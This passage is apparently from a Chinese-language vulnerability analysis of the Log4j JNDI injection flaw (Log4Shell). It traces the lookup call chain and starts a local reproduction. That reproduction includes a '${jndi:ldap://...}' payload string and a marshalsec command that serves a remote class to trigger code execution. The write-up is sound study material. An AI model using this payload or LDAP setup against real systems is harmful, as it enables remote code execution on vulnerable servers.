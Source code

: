 在 `org.apache.logging.log4j.core.pattern.MessagePatternConverter` 的 `format()` 方法，替换了攻击者恶意的表达式。

如果检测到`$`字符后跟了一个`{`字符，那么会对直到`}`中间的内容进行解析并替换replace操作。

![image](https://user-images.githubusercontent.com/84888757/162130705-0c32a15c-c4a1-43fa-a731-59f0d553c63d.png)

继续一步一步跟进，直到下一个关键点`Interpolator.lookup`
```
replace --> substitute --> StrSubstitutor.substitute --> resolveVariable --> Interpolator.lookup
```

替换replace是一个字符串查找的过程，方法如下：
- 在`Interpolator.lookup`方法中，将`${xxx:yyy}`的结构由 `:` 字符进行分割，解析为`prefix`和`name`两部分。
- 在`Interpolator.lookup`方法中，通过`prefix`去`strLookupMap`哈希表查询对应的`lookup`方法，再通过实例调用相应的`lookup()`方法，将`name`作为参数带入执行。

这里是 `JNDI` 方法，那么就会由`JndiLookup`类进一步处理：

![image](https://user-images.githubusercontent.com/84888757/162131237-996b3f5f-b736-48d6-8c6f-dc508bb75087.png)

![image](https://user-images.githubusercontent.com/84888757/162131307-8f33e311-2f7a-4e50-a106-4525d280bdb4.png)

跟进`JndiLookup`，找到最后的触发点`jndiManager.lookup`

![image](https://user-images.githubusercontent.com/84888757/162131659-54b1c759-e197-4b70-bf32-d7d084d315de.png)

最后跟入的触发点`org.apache.logging.log4j.core.net.JndiManager#lookup`如下图所示。

通过jndi加载由攻击者传入的LDAP服务端地址，然后返回一个恶意的JNDI Reference对象，触发漏洞，实现 RCE。

![image](https://user-images.githubusercontent.com/84888757/162132266-b45a4cc9-70e7-4b17-9d86-6ce41589b35a.png)

# 0x03 漏洞复现
写复现过程的时候，我使用的是 macOS 系统，如果是 Windows 系统，则启动计算器代码如下：
- String[] commands = {"calc.exe"};

漏洞代码：log4j_rce.java
```
package org.example;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j_rce {
    private static final Logger logger = LogManager.getLogger(log4j_rce.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:9999/CalcPoc}");
    }
}
```

使用marsharsec开启一个LDAP服务
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#CalcPoc" 9999
```
